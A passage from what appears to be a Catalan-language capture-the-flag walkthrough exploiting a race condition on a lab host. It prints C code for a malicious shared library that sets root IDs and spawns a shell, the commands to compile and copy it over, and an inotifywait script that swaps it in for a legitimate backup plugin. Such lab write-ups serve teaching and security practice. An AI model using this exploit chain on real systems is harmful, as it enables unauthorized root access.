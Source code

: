 ```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void inject()__attribute__((constructor));

void inject()
{
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

Compilem el codi font per obtenir una biblioteca compartida maliciosa denominada `backup_plugin_bad.so`.

```bash
gcc -shared -fPIC -o backup_plugin_bad.so backup_plugin.c  
```

A continuació, transferim la biblioteca maliciosa al servidor víctima. Des de la màquina atacant, ubicats al directori on es va compilar la biblioteca, executem:

```bash
scp backup_plugin_bad.so tocu@slywindow.nyx:/opt/backup
```

De forma paral·lela, al servidor, desenvolupem un script en bash que automatitza el reemplaçament de la biblioteca legítima per la versió maliciosa a l'instant precís per maximitzar la probabilitat d'èxit de l'atac.

```bash
#!/usr/bin/env bash
# toctou.sh

DIR="/opt/backup"
ORIG="$DIR/backup_plugin.so"
BAD="$DIR/backup_plugin_bad.so"
OK="$DIR/backup_plugin_ok.so"

# Espera al PRIMER cierre (lectura o escritura) y termina
inotifywait -qq -e close_write -e close_nowrite "$ORIG"

# Renombra lo más rápido posible (dos syscalls rename(2) atómicas)
mv "$ORIG" "$OK"    # guarda la copia buena
mv "$BAD"  "$ORIG"  # coloca la versión _bad en su lugar
```

S'han d'obrir dos terminals com l'usuari tocu al servidor. A la primera, s'atorguen permisos d'execució a l'script `toctou.sh` i es procedeix a executar-lo.

```bash
chmod +x ./toctou.sh 
./toctou.sh 
```
